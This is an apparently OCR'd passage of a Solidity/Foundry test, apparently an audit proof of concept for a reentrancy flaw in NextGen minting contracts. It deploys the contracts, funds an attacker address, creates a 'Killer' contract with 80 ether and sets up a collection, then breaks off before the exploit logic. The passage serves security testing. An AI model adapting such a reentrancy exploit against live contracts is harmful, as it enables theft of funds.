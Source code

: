 ```js
        _merkleProof_msgSender[0] = 0x9200f00000000000000000000000000000000000000000000000000000000001;

        hhDelegation = new DelegationManagementContract();
        hhRandoms = new randomPool();
        hhAdmin = new NextGenAdmins();
        hhCore = new NextGenCore("Next Gen Core", "NEXTGEN", address(hhAdmin));

        // This example uses the NXT Randomizer
        hhRandomizer = new NextGenRandomizerNXT(address(hhRandoms), address(hhAdmin), address(hhCore));

        hhMinter = new NextGenMinterContract(address(hhCore), address(hhDelegation), address(hhAdmin));

        checkIfContractsAreDeployed();

        _collectionScript = new string[](1);
        _collectionScript[0] = "desc";

        vm.deal(attacker, 100 ether);
        vm.deal(addr1, 100 ether);

        contractKiller = new Killer{value: 80 ether}(address(hhMinter));
    }

    function checkIfContractsAreDeployed() public {
        assertNotEq(address(hhAdmin), address(0));
        assertNotEq(address(hhCore), address(0));
        assertNotEq(address(hhDelegation), address(0));
        assertNotEq(address(hhMinter), address(0));
        assertNotEq(address(hhRandomizer), address(0));
        assertNotEq(address(hhRandoms), address(0));
    }

    function test_t0x1cReentrancyInMint() public {
        /// create collection
        hhCore.createCollection(
            "Test Collection 1",
            "Artist 1",
            "For testing",
            "www.test.com",
            "CCO",
            "https://ipfs.io/ipfs/hash/",
            "",
            _collectionScript
        );

        /// register collection admin
        hhAdmin.registerCollectionAdmin(1, addr1, true);

        /// set collection data
        vm.prank(addr1);
        hhCore.setCollectionData(
            1, // collectionID
            addr1, // collectionArtistAddress
            1, // maxCollectionPurchases
            100, // collectionTotalSupply
            1_000 // setFinalSupplyTimeAfterMint
        );

        /// set minter contract
        hhCore.addMinterContract(address(hhMinter));
```